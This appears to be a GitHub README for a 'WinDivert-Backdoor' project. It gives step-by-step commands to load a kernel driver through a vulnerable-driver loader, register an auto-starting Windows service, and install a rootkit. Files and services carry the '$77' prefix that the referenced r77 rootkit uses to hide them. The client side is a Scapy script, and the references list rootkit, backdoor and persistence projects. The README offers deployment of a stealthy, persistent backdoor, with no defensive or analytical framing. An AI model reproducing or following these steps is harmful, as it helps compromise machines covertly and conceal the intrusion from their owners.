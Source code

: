 # WinDivert-Backdoor
## Server
1. Install driver with GDRVLoader.exe </br>
`GDRVLoader.exe C:\$77folder\$77kernel.sys` 
3. Install service </br>
`sc create $77service binPath= "C:\$77folder\$77service.exe" start= auto`
5. Start service </br>
`sc start $77service`
6. Install rootkit </br>
`Install.exe`
## Client
1. [Install Scapy](https://scapy.readthedocs.io/en/latest/installation.html)
2. Download client.py script
3. Flourish

## References
https://github.com/zer0condition/GDRVLoader </br>
https://github.com/basil00/Divert </br>
https://github.com/cocomelonc/2022-05-09-malware-pers-4/tree/master </br>
https://github.com/r-a303931/pcap-backdoor </br>
https://github.com/bytecode77/r77-rootkit </br>
